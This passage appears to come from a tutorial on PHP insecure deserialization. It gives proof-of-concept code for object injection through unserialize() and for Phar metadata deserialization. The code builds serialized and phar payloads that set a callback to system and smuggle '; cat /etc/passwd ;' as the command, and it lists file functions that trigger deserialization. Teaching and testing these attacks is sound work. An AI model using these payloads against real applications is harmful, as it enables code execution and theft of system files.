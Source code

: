 By using unserialize() function we can override $func and $name thereby get RCE

```php
<?php

class User{
    public $name = "; cat /etc/passwd ;";
    public $age;
    public $func = "system";
}

$ser = new User();
echo serialize($ser);
// O:4:"User":3:{s:4:"name";s:19:"; cat /etc/passwd ;";s:3:"age";N;s:4:"func";s:6:"system";}
?>
```

![image](https://hackmd.io/_uploads/BkNQ1RZuee.png)


## Phar Deserialization

### How it works ?

Remember the serialized metadata in phar manifest ? So what if we put a malicious object and deserialize it ? In PHP <= 7.4, many file-related functions will automatically deserialize a Phar's metadata if accessed via phar://. Those functions are 

![image](https://hackmd.io/_uploads/rynpNRZdel.png)

and move_uploaded_file, mime_content_type, readgzfile, md5_file, gzopen, gzfile, etc.

### POC 

If I use the previous context and create a PHAR file like:

```php
<?php

class User{
    public $name = "; cat /etc/passwd ;";
    public $age;
    public $func = "system";
}

$obj = new User();
$phar = new Phar("test.phar");
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->setMetadata($obj);
$phar->stopBuffering();

?>
```
